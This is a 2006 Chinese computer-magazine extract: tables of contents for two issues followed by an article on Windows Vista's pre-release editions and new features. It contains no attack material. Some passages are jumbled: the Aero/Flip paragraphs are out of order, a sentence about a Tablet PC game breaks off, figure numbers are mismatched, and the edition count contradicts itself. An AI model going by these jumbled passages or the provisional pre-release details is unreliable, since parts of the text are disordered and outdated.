- 92 怎样保证幻灯片字体不变
- 92 查看 Word 文件的创建修改时间
- 92 “紫光拼音输入法”不工作
- 93 媒体播放器软件无法卸载
- 93 诺顿无法卸载
- 93 重装 Skype 后好友列表消失
- 93 无法打印 PDF 文件
- 94 IE 无法打开 FTP 服务器
- 94 IE 出现非法操作提示
- 94 让 Google 搜索结果在新窗口中打开
- 94 升级系统后无法用 QQ 传文件
- 94 局域网设置导致 MSN 登录失败

### 读编聊天室
- 95 雨丝小轩
- 96 订阅用户抽奖活动
- 96 《电脑爱好者》(普及版)2006年10期评刊表

## 第十一期

### 新闻眼
- 5 特别关注
- 6 心中有数
- 7 硬件淘宝
- 7 数码淘宝
- 9 外设淘宝

### 初学者乐园
- 10 家有初学老爸 清理篇——我给电脑做扫除
- 13 学会注册表 菜鸟变内鸟
- 15 和党党一起入门 Photoshop——照片批量处理魔法
- 16 安装新打印机不发愁
- 17 共享打印机 快捷经济
- 18 网络打印机 省时省力
- 18 压不压缩 心知肚明
- 19 明白端口 轻松防黑
- 20 修饰你的第一个网页
- 21 考生桌号帖快捷做
- 21 身份号藏不住出生日
- 22 电子相册有 XP 就可做
- 23 把你的电脑打造成防盗卫士
- 24 上网时长一目了然
- 25 将两幅作品渐进融合

### 软件学用通
- 26 学之篇：这个名字不简单 你管好自己的任务了吗？
- 30 启动任务管理器方法多
- 30 层叠显示多个程序窗口
- 30 找回丢失的菜单和标签
- 30 执行新任务从这里开始
- 31 按需查看进程列的显示项目
- 31 行使用户的权限
- 31 弄清进程的来龙去脉
- 31 通过任务管理器快速关机
- 32 切换用户也很方便
- 32 看清你的 CPU 使用情况
- 32 “运行”窗口被屏蔽怎么办
- 32 同时最小化多个窗口
- 32 把主要的程序请到前面来
- 32 同时结束多个任务 屏幕下方的那个多面手
- 33 这个小长条不简单——全能的任务栏
- 33 任务栏也要翻身啦——提升任务栏的“置位”
- 33 藏在任务栏中的宝藏——任务栏“链接”的妙用
- 34 一步到位 一键运行——快速启动栏的妙用
- 34 孩子！你别再漂泊了——输入条回到任务栏
- 34 把桌面让给美眉——在任务栏上显示桌面内容
- 34 上网何须找 IE？——从任务栏中上网去
- 35 学用 SnagIt 速成“抓图高手”
- 35 每次抓来的图都要同一个名字
- 35 抓下的图片请到我“家”
- 35 捕获的图片直达朋友邮箱
- 35 让抓图直达你的那台打印机
- 36 SnagIt 也是管图能手
- 36 让所有抓图自动入库
- 36 单张纸打印多幅图像
- 36 给图片作专业注释的工作室
- 36 预览窗口让你满意后再存
- 36 捕获图像一键能搞定
- 37 微软拼音输入法实用技法图解（续）
- 37 微软拼音输入法的三种窗口
- 37 以输入条形式表现的组字窗口
- 37 组字窗口中编辑键的作用
- 37 组字窗口中词语编辑方法
- 38 光标跟随能让输入更体贴
- 38 软键盘输入特殊符号很方便
- 38 按需选择软键盘布局
- 38 慎重选择整句输入方式
- 38 别贪不完整输入法的“便利”
- 38 不要轻易打开模糊音设置
- 39 还我一个原来的你
- 41 精品下载工具一揽子计划
- 44 DIY 配乐诗朗诵
- 46 高压政策 MP3 里装进更多歌
- 47 解开桌面图标文字色块之谜
- 47 没有鼠标的时候，数字键来帮忙！
- 48 文件名也能按姓氏笔画排序
- 49 三招两式玩转任务栏
- 50 让电脑与老人欢乐相伴（上）

### 网络 E 生活
- 53 又逢九九重阳 咱也时尚一把
- 55 大头的幸福网络生活之五——终极搜索术
- 57 PC2N 我的网上“电脑”
- 58 一个存储图片的好地方
- 59 秀出你的个性卡通像
- 59 与百科全书机器人聊天
- 60 E 时代 我们玩在线制作
- 61 构建自己的网上家园
- 62 网络螃蟹 登录直通车
- 63 给 QQ 功能加密 被盗也安全
- 64 让播放信息显示在 MSN 中
- 65 讨厌的网友快走开
- 65 暂拒好友的无聊信息
- 65 让烦人好友看不见我
- 66 群空间存记录 群里边看直播
- 66 找回被误拒绝的好友
- 67 网页保存有技巧
- 67 多个文件 QQ 一次传
- 68 无用邮件一次性删除
- 68 BT 电影边下边看
- 69 超限大邮件也能发
- 69 即使重装系统 邮箱地址犹存
- 69 对付垃圾邮件 我有黑名单

### 硬学硬用
- 70 酷睿 2 系列学生用笔记本电脑大盘点
- 72 一鼠在手，江山我有——光电鼠标选购指南
- 73 自然光中的闪光灯运用
- 74 DC 画面 构图技巧
- 75 永远留住旭日东升的美丽——DV 日出拍摄技巧
- 76 三脚架使用技巧
- 77 速度决定一切——笔记本开机加速攻略
- 78 个性的展示，魅力的体现——打造个性化的手机界面
- 79 让你的工作变得更加轻松——解决打印机共享问题
- 80 提高工作效率的直通车——喷墨打印机优化步步高
- 81 让儿童手机更适合儿童——自己动手制作儿童手机
- 82 物尽其用，才能“锋芒毕露”——让你的 MP4 得到充分利用
- 83 是谁动了我的笔记本电脑——如何为你的笔记本电脑数据加密
- 84 干净清爽每一天——如何让扫描仪防“灰尘杀手”
- 85 轻松玩转打印、扫描与复制——一体机实用方案
- 86 让“灵魂”与“身体”协调一致——笔记本电脑系统安装常见问题解决方案
- 87 妙手回春修硬件系列之六
- 88 自己动手处理 MP3 小故障——MP3 维修知识经验总结

### 傻博士信箱
- 89 DV 拍显示器屏幕时闪烁
- 89 数码相机无法识别存储卡
- 89 CCD 分辨率怎么会高于照片最大分辨率
- 89 CCD 与 CMOS 有何区别
- 89 将 DVD 光盘的内容复制到硬盘上观看
- 89 BIOS 检测不到 SATA 硬盘
- 90 增加存储卡后照片质量变差
- 90 液晶显示器开机黑屏
- 90 IEEE 1394 接口插针不统一
- 90 使用双光驱不能正常安装系统
- 90 如何识别翻新手机
- 90 USB 设备插到电脑上无法使用
- 91 每次启动系统时会出现 Windows Installer 窗口
- 91 系统文件丢失了
- 91 Windows 2000 下老游戏的显示问题
- 91 Sysxplr.exe 应用程序出错
- 91 系统总显示最近打开的文件泄露隐私
- 92 不同账户是否需要重复安装 Office
- 92 Word 分栏不均匀
- 92 Word 中几种文本格式的区别
- 92 Word 中固定每行的字数
- 92 在 Excel 中不能进行求和运算
- 93 如何在 Word 中替换文字的格式
- 93 刻录的音乐 CD 不能播放
- 93 合并 RM 电影文件
- 93 无法直接运行 WinRAR 中的可执行文件
- 93 无法播放 Flash 文件
- 93 给文本文件加密
- 94 ADSL 连接窗口永远存在
- 94 脱机状态下无法浏览网页
- 94 清除浏览器历史记录
- 94 取消 MSN 自动登录
- 94 Hotmail 菜单变成了英文

### 读编聊天室
- 95 雨丝小轩
- 96 《电脑爱好者》(普及版)2006年11期评刊表## Windows Vista 选购及疑难解答

文/Heelen 胡鹏

Windows XP 从发布到现在已经5年时间了，Internet 的应用发生了翻天覆地的变化，万众瞩目的下一代操作系统 Windows Vista（以下简称 Vista）却始终蒙着神秘的面纱，迟迟不肯露面。根据微软的公布，Windows Vista 的正式零售版将于2007年1月1日销售。目前最新的 Vista 公开测试版本为 RC2 5840。很多朋友都跃跃欲试，想在自己的电脑上安装 Windows Vista 来体验一下。但是 Windows Vista 那几近苛刻的硬件要求，如同晴天霹雳般让不少人吃了闭门羹。即便自己电脑跑不动 Windows Vista，但是也阻挡不住大家对 Windows Vista 的“求知”欲望。下面笔者将解开 Windows Vista 的神秘面纱，从多个方面向读者介绍 Windows Vista 的相关信息，并着重介绍 Windows Vista 的新功能及其相关体验。

### 一、Windows Vista 的发展史

Vista 是微软历史上开发周期最长的一款操作系统。作为 Windows XP 的下一代产品，早在 2001 年 Windows XP 发布之时，Longhorn（Vista 的开发代号）就已经在网上流传得沸沸扬扬了。而按照微软最初的开发计划，Vista 原本应该在 2003 年面世，但实际上，直到在 2003 年的 WinHEC（Windows 硬件技术研讨会）大会上，微软才首次公开了 Longhorn，并表示正式版本将在 2004 下半年至 2005 年初上市。但是，微软的计划仍然没有如期实现，2003 年的“冲击波”彻底打乱了微软的计划，微软不得不抽身开发 Windows XP SP2 和 Windows Server 2003 SP1，导致了 Vista 的发布一再跳票。直到 2005 年 7 月 22 日，微软才正式将 Longhorn 命名为 Vista，并于当天发布了 Windows Vista Beta 1，Build 号码为 5211。时隔将近 1 年，到了 2006 年 5 月 22 日，微软又发布了 Windows Vista Beta 2，Build 号码为 5384。2006 年 10 月微软又发布了 Windows Vista RC2 5744，这是正式版发布前的最终外部测试版，而正式版的 Vista 将拖延到 2007 年发布。历经艰难的 Vista 可以称得上是微软历史上最曲折的产品开发项目。

### 二、Windows Vista 各种版本介绍

为了更好地针对不同用户群的需求，微软将推出 7 种不同版本的 Windows Vista。Windows Vista 将分为两个大类：家用版、商业版。家用版类共有 4 个版本，分别为：Windows Vista Starter Edition、Windows Vista Home Basic Edition、Windows Vista Home Premium Edition 和 Windows Vista Ultimate Edition。

商业版类有 3 个版本，分别是 Windows Vista Small Business Edition、Windows Vista Professional Edition 和 Windows Vista Enterprise Edition。

除了 Windows Vista Starter 版本之外，其他 7 个版本都有 32 位和 64 位的产品供用户选择，毕竟现在 64 位电脑已经成为装机的主流产品。预计 Vista 将被定位成一种面向 64 位的过渡性产品，所以几乎全部 Vista 版本都支持 32 位和 64 位。而微软希望在 Vista 以后的操作系统中完成向 64 位平台的迁移。

注意：目前，所有版本名称只不过是个代号而已，在未正式发布之前，这些版本的名称随时都有可能变化。

这么多的 Vista 版本，容易造成用户的困扰，下面就来分别介绍不同 Vista 版本的区别。

#### 1. Windows Vista Starter Edition (精简版/入门版)

所有版本中最为基础级的产品，也是最为简化的一个版本，它主要面向只能购买廉价 PC 的发展中国家的电脑初学者。据说将会更名为 Windows Vista Starter 2007。和 XP 初级版一样，Starter Edition 相当于家庭版的子集，只有 32 位版本。这个版本分辨率被限制在最高为 1024 × 768 像素，只能同时运行三个应用软件，可以上网但无法与其他电脑连网，它也没有密码登录以及“快速用户切换”等功能。这个版本将只会在发展中国家销售。

此版本主要具有以下特色：

- 在安全与系统稳定性方面作了重大改进
- 在资源的搜索及组织管理方面有革新
- 具有 Windows Vista Basic User 的界面

#### 2. Windows Vista Home Basic Edition (家庭基本版)

入门级的产品，它和 Windows XP Home（家庭版）差不多。这个版本主要面向普通的消费者，以及对价格敏感的首次电脑购买用户。

它主要具有以下特色：

- 在安全与系统稳定性方面作了重大改进
- 加入了“父母管制”(Parental Control) 功能
- 具有 Windows Vista Basic User 的界面
- 在资源的搜索及组织管理方面有革新
- 增强了对网络的支持与性能

#### 3. Windows Vista Home Premium Edition (家庭高级版/标准版)

面向 PC 发烧友，适合拥有多台 PC 的家庭、有小孩的家庭以及笔记本用户，适合家庭娱乐和在家中和旅途中工作。Home Premium Edition 和 Windows XP 媒体中心类似，区别是增加了其他诸如平板电脑的支持，它将是 PC 上的 Vista 的主流产品。

Home Premium Edition 是 Home Basic Edition 版本的增强版，具有 Home Basic Edition 的所有功能，并且还增加了以下特色：

- 具有 Windows Aero 的界面
- 加入了 Windows Media Center 组件
- 对数码多媒体功能进行了增强，例如加入了制作、刻录 DVD 等功能
- 加入了对 Windows Tablet PC 的支持
- 对 PC 移动性进行了增强，例如加入了“PC-to-PC 同步”等功能

#### 4. Windows Vista Professional Edition (专业版)

是针对所有公司的一个强有力的、可靠的和安全的系统。Professional Edition 将包括域的添加、管理功能，和非微软网络协议（Netware、SNMP 等）兼容，远程桌面，IIS 网络服务器，加密文件系统(EFS)。另外，专业版将加入平板电脑的功能。Windows Vista 专业版类似于现在的 Windows XP 专业版。这个版本针对的是企业决策者、IT 经理和通晓数门知识的人。

#### 5. Windows Vista Small Business Edition (小型商业版/小型企业版)

针对非 IT 企业的中小型企业的客户端产品，包含了备份、PC 传真和扫描等特殊功能。

它是 Vista 系列中的一个新版本，在 XP 中并没有这个版本。Small Business Edition 可以升级为 Enterprise Edition 或者 Ultimate Edition，微软还准备为此版本加入一个向导程序，帮助用户进行付费升级。

此版本具有 Home Basic Edition 的所有功能（删减了一些娱乐功能），并且还增加了以下特色：

- 具有 Windows Aero 的界面
- 加入了对 Windows Tablet PC 的支持
- 对 PC 移动性进行了增强，例如加入了“PC-to-PC 同步”等功能
- 加入了企业级用户主要功能，例如可加入域、组策略和加密文件系统 (EFS)
- 加入了针对小型企业用户的功能，例如传真和扫描功能

#### 6. Windows Vista Enterprise Edition (企业版)

针对大型企业组织的客户端产品，是企业的最好选择。此版本是 Small Business Edition 的增强版，具有 Small Business Edition 的所有功能，并且还增加了以下特色：

- 加入了 Windows BitLocker Drive Encryption 磁盘加密功能
- 支持所有不同语种的界面
- 加入了 Virtual PC Express 组件
- 加入了支持基于 UNIX 应用程序的子系统 (SUA)

注意：很多人对如何区分 Small Business Edition 和 Enterprise Edition 感到疑惑。其实，Small Business Edition 主要面向那些可能不具有信息技术支持的中小型企业，而 Enterprise 则主要面向大型的全球化企业。

#### 7. Windows Vista Ultimate Edition (终极版/最终版)

Ultimate，终极、顶点之意，从字面上就知道，这是所有版本中的旗舰产品，是微软迄今为止推出的最佳 PC 操作系统，是 Vista 中的最优版本。Ultimate Edition 具有其他所有版本的功能。它对办公、娱乐、移动方面都具有很强的支持。如果用户拥有一台笔记本电脑，白天在办公室中需要加入公司局域网与同事进行数据的同步与共享，而晚上在家中又想看电影玩游戏进行娱乐，那么 Ultimate Edition 将会是你的不二的选择。

读者一定很关心 Vista 系统的售价，据网上流传的消息，Vista 的售价不菲，Windows Vista Home Premium Edition 的价格相当于 Windows XP Professional Edition 售价的两倍。不过这些消息都没有得到确认，最终价格要在正式版发布时才能知道了。

### 三、新功能体验：视觉的冲击

从 DOS 系统发展到现在，微软操作系统的用户界面由最初死板的命令提示模式演变为如今界面华丽的 GUI 界面。还记得当初 Windows XP 刚展现于世人面前时，其精美细腻的操作界面引起的轰动吗？如果说 Windows XP 是一个划时代标志性的操作系统，那么如今的 Windows Vista 也将把用户带入一个全新的时代。

Windows Vista 是第一个基于硬件性能来衡量用户体验级别的 Windows 操作系统。它为用户提供了四种不同等级的用户体验，包括：Basic、Windows Classic、Standard 和 Windows Aero。注意，用户级别不等同于桌面主题。它是 Windows Vista 根据系统版本和硬件兼容性等信息，或者用户的设置而进行选择的。

#### 1. Basic用户界面

Basic 是入门级别的 Windows Vista 用户体验级别，相对于之前的 Windows 操作系统来说，其主要改进是“开始”菜单具有快速查找定位功能，并且资源管理器集成了桌面搜索和动态图表等功能。

#### 2. Windows Classic用户界面

Windows Classic 包含的特性和 Basic 用户体验级别一样，只是其界面采用 Windows 2000 风格而言。Windows Classic 本身作为一个桌面主题可供用户在“桌面主题”中进行选择。图 1 为 Windows Classic 的界面。

#### 3. Standard用户界面

Standard 是 Windows Vista 的中等用户体验级别，它在 Basic 的基础上做了平滑处理，并且增强了视觉效果。Standard 对于显卡的硬件要求和 Windows Aero 一样。

即可使用 Flip 的切换模式。和以前系统一样，此时会看到屏幕中间显示一条窗口切换栏，而不同的是 Flip 采用了窗口缩略图来取代以前清一色的文件图标。如图 4 所示，

#### 4. Windows Aero用户界面

Windows Aero 可谓是 Windows Vista 的标志性用户体验级别。它具有以下几大特色：更专业化的视觉体验，窗口的透明玻璃效果，窗口的动态伸展收缩效果，实况任务栏缩略图，Flip 和 Flip 3D 窗口切换模式。

窗口的半透明玻璃效果是指窗口、菜单的边缘都采用半透明玻璃化，不仅增加了视觉美观，而且使用户在不关闭或最小化窗口的情况下可以透过窗口边缘看到下层大概内容，方便了操作。Windows Vista 的半透明玻璃效果还允许用户根据自己的操作习惯与爱好设置其颜色、颜色饱和度和透明度。图 2 是透明玻璃效果。

采用了窗口的动态伸展收缩处理效果处理后，用户在 Windows Vista 中打开和关闭窗口都会看到窗口在伸展收缩的同时飘入与飘出眼帘，有种眼前一亮的感觉。

如图 3 所示，在 Windows Vista 中，当你将鼠标指针移至任务栏上的按钮时，会发现此时会显示一个窗口的缩略图，取代了以往系统中只提示窗口名称的做法。实况任务栏缩略图使用户可更方便、直观了解每个窗口的内容而不用显示该窗口。

如果当前正在播放视频文件，那么缩略图还可以动态地播放视频文件内容。而 Flip 3D 切换模式则以 3D 模式呈现不同窗口，更大可视度地展现每个窗口的内容，如图 5 所示。

而最振奋人心的要数 Flip 和 Flip 3D 两种窗口切换模式了。当用户打开多个窗口时，它们会显示不同窗口的缩略图而不仅仅是窗口的名称，以求用户更为直观快捷地找到自己所需的窗口程序。当用户同时按下 Alt+Tab 组合键时，

除了上述几个特色外，Windows Aero 还通过技术改进，让用户的桌面操作更加流畅，并且减少了由于显卡驱动问题而导致的系统崩溃和蓝屏现象的发生。

看了上面 Windows Aero 的几张靓照，是不是垂涎欲滴，跃跃欲试了呢？先别急，要享受一下 Windows Aero 是有代价的，因为 Windows Aero 对计算机显卡的要求很苛刻，它要求显卡必须硬件支持 DirectX 9 with Pixel Shader 2 和 Windows Display Driver Model (WDDM)技术。下面举例说明现有的显卡哪些符合 Windows Aero 的要求。

| 台式机显卡 | 笔记本显卡 |
| :--- | :--- |
| ATI Radeon X1900 Series | ATI Radeon Xpress 200M |
| ATI Radeon X1800 Series | ATI Mobility Radeon X1800 Series |
| ATI Radeon X1600 Series | ATI Mobility Radeon X1600 Series |
| ATI Radeon X1300 Series | ATI Mobility Radeon X1400 Series |
| ATI Radeon X850 Series | ATI Mobility Radeon X1300 Series |
| GeForce 7900 GPUs | GeForce 7900 GPUs |
| GeForce 7800 GPUs | GeForce 7800 GPUs |
| GeForce 7600 GPUs | GeForce 7600 GPUs |
| GeForce 7300 GPUs | GeForce 7400 GPUs |
| GeForce 6800 GPUs | GeForce 7300 GPUs |
| GeForce 6600 GPUs | GeForce 7200 GPUs |
| GeForce 6500 GPUs | |

注意：这里并没有列出所有支持Windows Aero的显卡芯片，只是列出了一些具有代表性的显卡芯片。

### 四、新功能体验：便捷高效的操作界面

Windows Vista的宗旨之一就是要让用户更快速直观地关注自己需要的信息，更便捷高效地处理自己的工作。而在Windows Vista中，我们可以发现很多操作界面的确改变了很多，更加方便用户查找定位自己所需资源。其中，改进的操作界面最主要包括“开始”菜单和资源管理器。

#### 1. “开始”菜单

见过Windows Vista“开始”菜单的朋友一定会很惊讶地发现，它与以往系统的“开始”菜单有很大的不同。Windows Vista菜单左下方加入了一个“快速查找”搜索框，用户可以直接查找定位所需的应用程序、文件、E-mail或Internet的收藏夹。如图6所示，当我们在“快速查找”搜索框中输入资源的名称时，在菜单的左边都会立即显示较为匹配相关的资源供用户选择。

Windows Vista的“开始”菜单的另一个改进是改变了层级菜单的显示方式。图7为Windows XP和Windows Vista中“开始”菜单的比较。可以看到，Windows XP的层级菜单是向右展开的，多层级的菜单不仅会占用屏幕大部分显示区域，而且也给查找带来很多不便。而Windows Vista的层级菜单将以目录树的方式在菜单左边显示，用户可以使用垂直滚动条上下翻阅，查找起来非常直观。

“开始”菜单右下角提供了“休眠”和“锁住计算机”的快捷按钮，单击这两个按钮会直接进入休眠状态或锁住计算机，系统不会作任何提示或提供选择。在Windows Vista中，微软提倡用户使用休眠功能而并非直接关闭计算机，因为这样可以减少关机开始时漫长的等待时间。如果要进行其他操作，可以单击按钮旁边的小箭头展开菜单后进行选择，如图8所示。

#### 2. 资源管理器

在Windows Vista中，资源管理器可谓焕然一新。它相对与Windows XP来说，在菜单、工具栏、导航栏等都做了较大的改进。像“开始”菜单一样，资源管理器也加入了“快速查找”搜索框，方便了资源的查找定位。

图9所示的是资源管理器的界面。下面介绍一下资源管理器的几大改进与功能。

- （1）“快速查找”搜索框

在“快速查找”搜索框中，当你输入所需文件或文件夹的部分名称时，资源管理器就会快速搜索与之匹配的资源，并立即显示出来供用户选择。“快速查找”搜索框的查找范围更加广阔，包括文件的名称、属性和内容。

- （2）导航栏和搜索文件夹

资源管理器的导航栏使用户更容易地找到自己所需的资源。图9所示，资源管理器左边就是导航栏的默认界面，它包含了几条快速链接，让用户可以更快速地打开“文档资源管理器”、“图片资源管理器”和“音乐资源管理器”。

单击 Searches 链接，可以查看到当前系统上所有不同种类的搜索文件夹，如图10所示，不同的搜索文件夹会将硬盘上的不同资源进行整理归类，而这些资源可以分散在不同的文件夹中。这样，用户就可以不用一一了解这些资源的所在位置而更方便地对这些资源进行管理了。

图10 单击 Searches 链接，可以查看到当前系统上所有不同种类的搜索文件夹

## （3）命令栏

Windows Vista 资源管理器的命令栏会根据不同文件夹显示相应的命令操作。例如，当用户选中文档文件时，命令栏会显示打印等文档的相关命令。而当用户打开图片文件夹时，命令栏则会显示图片的相关命令。

## （4）实况图标

在 Windows Vista 中，实况图标被运用得淋漓尽致。它改变了以往只显示文件类型图标的传统方式，直接显示出文件或文件夹的实际内容，使用户无需打开文件即可了解其大概内容。

## （5）预览栏

当用户选中一个文件时，可以在预览栏中快速查看到该文件的详细属性信息，而无需去右击该文件然后选择‘属性’。如果你想对该文件的属性信息进行编辑，还可以单击相应属性进行操作。

## （6）阅读栏

使用资源管理器浏览一些文档和多媒体文件（例如图片、音乐、视频等）时，用户可以通过阅读栏来预览文档或多媒体文件的部分片段和内容。和实况图标作用相似，阅读栏也使用户无需打开文件即可了解其大概内容。

## （7）地址栏、标题栏和窗口边框

如图11所示，Windows Vista 资源管理器的地址栏增强了导航功能，用户可以单击每层目录旁边的箭头快速进行跳转。Windows Vista 资源管理器的标题栏和边框也比以前系统变得更宽了，以方便用户进行窗口大小的调整及移动。

图11 地址栏

### 五、新功能体验：新增的工具组件

Windows Vista 中新增了很多工具，下面我们来领略一下这些工具的妙用。

#### 1. 日程管理的好帮手：Windows Calendar

Windows XP 中虽然集成了邮件和通信薄，但是，常因其缺乏相应的日程管理功能而被人诟病。在 Windows Vista 中，微软通过新加入的 Windows Calendar 解决了这个问题（如图12）。虽然从严格意义上说，Windows Calendar 只是提供了基本的约会与事件日程表，并不能视作 Outlook Calendar 的继任者，不过其表现相当不错，让用户可以一目了然地安排每天、每周、每月的计划。Windows Calendar 的不足在于，其没有与邮件客户端集成，日程与任务信息不能存储在企业的 Exchange server 上等。

图12 Windows Calendar 让你方便地管理自己的日程

### 2. 内置的 DVD 制作软件：Windows DVD Maker

我们知道微软在 Windows XP 系统中提供了一个视频制作软件 Movie Maker，但遗憾的是输出格式只有一个选择—— WMV。而用户往往想把自己的作品在家用 DVD 机上播放，因此微软也只能尴尬地在其网站上说明如何用第三方刻录软件将 Windows Movie Maker 制作出的视频刻录为 DVD 视频光碟。在用户的要求下微软终于在新一代操作系统 Vista 中绑定了 DVD 制作软件 DVD Maker（如图13）。该软件将只出现在 Vista 的两个版本中—— Home Premium Edition 以及 Ultimate Edition。

图13 Windows DVD Maker

DVD Maker 将支持 NTSC/PAL 电视格式，以及标准的 4:3 及 16:9 宽屏输出。该软件还提供了漂亮专业的模板。不过，DVD Maker并未提供视频编辑功能，因此用户仍然可以采用Windows Movie Maker编辑视频然后再导入到DVD Maker中，加入DVD菜单最后输出为DVD格式。

#### 3. Windows Defender，对付流氓软件的利器

Windows Defender（如图14）的乳名为Microsoft AntiSpyware，它是微软针对广告程序、恶意程序和间谍程序的专杀工具，一推出就引起了一阵不小的轰动，还曾经是微软下载中心下载量最大的软件，现在它被集成到了Vista系统中，用来对付日益猖獗的“流氓软件”。它像杀毒软件一样，可以对计算机系统进行实时监控，并且需要不断更新程序的定义库。而它被整合到Windows Vista中后，将与用户安装的第三方杀毒软件一起肩负着捍卫系统安全的职责。

图14 Windows Defender

#### 4. Parental Controls（父母控制功能）

在Windows Vista中引入了一个重要功能：Parental Controls（父母控制），如图15所示。它可以有效地帮助父母对儿童进行电脑使用监管，防止未成年人由于自控能力差而误入歧途。父母需要为儿童创建一个普通用户权限的系统账户，然后通过管理员权限对该账户进行设置。如图15所示，父母控制主要针对儿童上网浏览的内容、使用电脑的时间、游戏和其他应用程序进行管制。并且，父母还可以查看儿童在电脑上的使用记录报告，从而更好地进行监控。

图15 Parental Controls

#### 5. 用户账号控制(User Account Control)

User Account Control旧称为User Account Protection，它可谓是微软在Windows Vista的重头戏。作为Windows系统安全性能里程碑式的改进，一面世就几经非议，用户对它也是褒贬不一，而微软几乎也在每一个测试版中对其进行了不断的完善。

权力是一把双刃剑，它既可方便用户使用和配置系统，又时时对系统造成很大的威胁。在Windows 2000和Windows XP中，微软建议用户在日常操作时使用权力较低的Users组或Power Users组用户，需要进行系统配置时再使用Administrators组用户登录系统进行操作。为了更好地方便使用，Windows 2000和XP提供了一个Runas命令，通过该命令可以在不注销当前用户的情况下以其他用户的身份运行某个程序。不过为了贪图方便，绝大部分的用户日常操作时都是使用Administrators组用户，甚至根本没有设置密码。这样当运行了某个病毒程序后，该病毒程序就会获得与当前用户同样高的权力，对系统造成严重的威胁。

而 User Account Control 正是应运而生，它的作用是最大限度地保护用户计算机系统免受病毒的侵害，其工作原理是当用户进行一个对整个系统有影响的操作时，先中断该操作，并提示用户进行确认或者取消；如果当前用户不具备管理员权限，那么会提示输入管理员账户及密码。

如图16所示，Windows Vista中需要经过User Account Control验证的操作选项前面都会显示一个彩色盾牌。

图16 User Account Control 验证

User Account Control的提示窗口有两种，如果当前用户拥有管理员权利，那么 User Account Control 默认就会提示用户进行确认（如图17）。

图17 User Account Control 确认窗口

我们可以单击“细节”箭头，此时就会显示该程序的详细路径，帮助用户确定该程序是否为可信赖程序。

如果当前用户不具备管理员权利，那么就会提示用户选择一个管理员账户并输入相应的密码（如图18）。

User Account Control 这个功能，很有效地保护了系统。比如当前用户不小心运行了病毒程序，该病毒程序在后台进行一些对系统破坏性的操作。如果是 Windows Vista 以前版本的系统，那么由于这些操作在后台发生，用户都无法知晓的。但现在，User Account Control 不管前台还是后台的操作，都能够主动拦截，并出现提示窗口提示用户。如果用户发现自己没有进行某项操作或运行某个程序，而出现 User Account Control 提示窗口了，那很可能就是中毒了。

大家可能会发现，在系统出现 User Account Control 提示窗口时，整个桌面会暗下来，只有 User Account Control 提示窗口高亮度显示。此时只能在 User Account Control 提示窗口中进行操作，而无法进行其他任何操作，这个就是 Secure Desktop（安全桌面）特性，是后期 Windows Vista 测试版新添加的一个功能，该功能能够有效地预防了一些恶意程序利用欺骗手段来通过 User Account Control 的验证。例如，在没有 Secure Desktop 特性的 Windows Vista 上，恶意程序可以模拟一个 User Account Control 提示窗口（覆盖真正的 User Account Control 提示窗口），以此盗取用户输入的管理员密码。或者，恶意程序可以隐藏用户真实的鼠标指针，然后模拟一个鼠标指针。在出现 User Account Control 提示窗口提示用户“确定”或“取消”操作时，用户点的是“取消”按钮，而其实被隐藏的真实的鼠标指针点的却是旁边的“确定”按钮。

图18 User Account Control 验证

结合了 Secure Desktop 特性的 User Account Control 功能，只允许当前系统中以 System 身份运行的进程不经过 User Account Control 监控，而以其他身份运行的程序都难逃 User Account Control 的法眼。

#### 6. 强大的数码相片、影片管理和处理功能：Windows Photo Gallery

数码相机、摄像机越来越普及。因为拍摄成本低，所以很多人拍照的时候都是不假思索狂按快门，不知不觉中电脑硬盘中存放的照片和影片就越来越多，管理也就成了问题。可是相片一多，后期的管理就成了问题。除此之外，如果照片与影片有些小瑕疵，如何用最简单的手段将其修复？

Vista 具有很强大的数码相片处理能力，它集成了 Windows Photo Gallery（Windows 照片长廊）工具，用来处理照片管理、导入和共享。在 Windows Photo Gallery 中，你可以从数码相机、数码摄像机或者扫描仪中导入照片，双击图片，即可进入编辑模式（如图20），单击上方的 Fix 按钮即可对它们直接进行处理：裁剪，修正“红眼”，或者是调整它们的颜色。使用 Windows Photo Gallery，还能很方便地为照片添加说明或者为文件本身加标签，以便在必要时快速搜索到需要的相片。可以看出，Windows Photo Gallery 跟 Picasa 2 和 ACDSee 有些相似。

图19 Windows Photo Gallery，让数码相片管理更加轻松

图20 Windows Photo Gallery 还具有简单而强大的数码相片处理功能

### 7. Windows Vista 内置的游戏

Windows Vista 中对以往系统内置游戏做足了美工，使其具备立体感。而且，在 Windows Vista 中还加入了两个有趣的小游戏，分别是 Chess Titans 和 Purble Place（如图21）。

图21 Windows Vista 中新增的游戏

如果你使用的 Windows Vista 版本支持 Windows Tablet PC，那么还可以体验到专为 Tablet PC 设计的一款游戏——

#### 8. 强大的备份、还原功能 Backup and Restore Center

从 Control Panel（控制面板）启动 Backup and Restore Center（如图23），在这里我们可以进行各种备份和还原操作，包括以下 4 种：

-   Back up files（文件备份）
-   Back up computer（系统备份）
-   Restore files（文件还原）
-   Restore computer（系统还原操作）

Backup and Restore Center 的文件备份功能轻松易用，还能够为你设定每一周或每个月进行一次文件的备份，而可备份的文件格式也有很多，包括你的收藏夹文件、影音视频、图像文件等。一般来说，这些设置都足够你进行一个全面的文件备份了。除了本地备份和网络备份，还可以直接将这些内容刻录到 DVD 光盘里。

而 Back up computer 和 Restore computer 是 Vista 在数据备份方面的新功能，它可以解释为计算机的完整备份和还原，可以将整个驱动器进行备份和还原，在某种程度上与大家熟悉的 Symantec Ghost 类似。

图22 Backup and Restore Center

使用 Back up computer 功能，可以将整个硬盘或分区备份成一个镜像文件，对系统所在的硬盘或分区的备份将包括所有的系统文件、隐藏文件等，而不是仅仅只备份数据文件；这样，当系统发生故障时，可以直接运行 Restore computer，使用镜像文件恢复之前能够正常运行的系统。另一方面，这个功能对企业用户而言还带来一个更大方便：同 Ghost 一样，企业管理可以先安装好一台系统，然后使用 Back up computer 备份创建一个镜像文件，然后分发到许多同样配置的计算机上安装，这在很大程度上可以提高 IT 管理的效率。

#### 9. Snipping Tool 截取屏幕图像软件

在以前的 Windows 操作系统中，如果我们想截取屏幕图像的话，只能使用键盘上的 Print Screen 键截取全屏图像（或按 “Alt+Print Screen” 组合键截取当前窗口的图像）来获取，或者借助类似 SnagIt 的第三方截取屏幕图像软件。而在 Windows Vista 中系统自带了一个名为 Snipping Tool 的截取屏幕图像的软件，我们可以从 “Start→Accessories” 菜单（即 “开始” 菜单的 “附件” 中）启动 Snipping Tool（见图24），它的功能虽然不像专业的截取屏幕图像软件一样强大，但是 Snipping Tool 可以针对屏幕某一区域的图像进行截取，已经可以满足普通用户的日常需求。

图23 Snipping Tool

